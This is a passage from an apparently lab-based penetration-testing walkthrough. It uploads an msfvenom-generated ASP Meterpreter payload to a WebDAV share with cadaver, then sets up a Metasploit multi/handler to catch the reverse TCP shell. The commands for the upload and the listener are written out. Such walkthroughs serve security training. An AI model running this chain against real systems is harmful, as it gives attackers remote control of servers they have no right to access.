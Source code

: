 That is generated successfully, which is set the architecture to x32 bit. It is always recommanded to use 32 bit meterpreter payload here primarily because if you not family or not sure what architecture the target operating system is, x32 bit will work either wether the system is x32 bit or x64 bit.

```
ls

shell.asp
```

```
cadaver http://10.2.30.233/webdav

dav:/webdav/> ls
dav:/webdav/> put /root/shell.asp
```

在浏览器中刷新，可以看到shell.asp。

The next step will be click on it and execute it, but before we execute it, we need to set up a listener or and a handler that will receive the reverse connection from the target system and then send the stage that will provide us with a meterpreter session when executed.

In order to do this, we need to start up a metasploit console session, and in order to do this, we just start up the postgresql database service because the metasploit console require the metasploit framework database to be start.

```
service postgresql start && msfconsole
```

In order to set up the handler:

```
msf6 > use multi/handler
```

This is a metasploit mode which is used to set up a listener for the malicious payload you have created.

The payload we used to generate the malicious ASP file was:

```
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
```

This has to be same payload that you have specified when generating ASP file with msfvenom. Make sure the payload you specified is the same one you used to generated ASP file.

Remember they are the same option used when you are generating a malicious ASP payload with msfvenom.

`run` That is going to start up a listener or rather a reverse TCP handler and its now going to wait for a connection from the ASP payload we generated. So when we execute on the target, it will connect back to this particular reverse TCP handler.

```
msf6 exploit(multi/handler) > show options
msf6 exploit(multi/handler) > set LHOST 10.10.5.2
msf6 exploit(multi/handler) > set LPORT 1234
msf6 exploit(multi/handler) > run
```
